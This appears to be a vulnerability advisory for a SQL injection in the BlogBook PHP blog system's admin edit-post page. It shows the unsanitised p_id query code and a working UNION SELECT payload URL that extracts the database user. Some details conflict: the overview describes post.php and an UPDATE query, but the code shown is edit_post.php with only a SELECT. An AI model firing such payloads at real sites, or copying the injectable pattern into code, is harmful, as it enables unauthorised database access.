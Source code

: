 # BlogBook /admin/posts.php edit_post p_id Parameter SQL Injection

**Exploit Title: BlogBook /admin/posts.php edit_post p_id Parameter SQL**

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows, Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A SQL injection vulnerability exists in the [post.php] file of the BlogBook application. User-supplied input from the p_id GET parameter is directly concatenated into SQL query strings without adequate sanitization. This affects both an UPDATE query designed to increment post view counts and a SELECT query used to fetch post data for display. Consequently, an unauthenticated remote attacker can inject and execute arbitrary SQL commands, potentially leading to unauthorized data access, modification, or further compromise of the database.

## Vulnerability Point

`blogbook-main/admin/includes/edit_post.php:8`

## Vulnerable Parameter

`p_id`

## Vulnerable Code

```php
if(isset($_GET['p_id'])){
    $edit_post_id= $_GET['p_id'];
}


$query="SELECT * FROM posts WHERE post_id={$edit_post_id}";
                            $select_posts_by_id=mysqli_query($connection,$query);   
                            while($row=mysqli_fetch_assoc($select_posts_by_id)){
                               global $cat_id;
                                 $post_id=$row['post_id'];
                                 $post_author=$row['post_author'];
                                 $post_title=$row['post_title'];
                                 $post_category_id=$row['post_category_id'];
                                 $post_image=$row['post_image'];
                                 $post_tags=$row['post_tags'];
                                 $post_content=$row['post_content'];
                                 $post_comment_count=$row['post_comment_count'];
                                 $post_date=$row['post_date'];
                                 $post_status=$row['post_status'];
                            }
```
## Payload

`http://localhost/admin/posts.php?source=edit_post&p_id=-1%20UNION%20SELECT%20NULL,NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL%20--`

![add_post sqli](./assets/add_post_sqli.png)
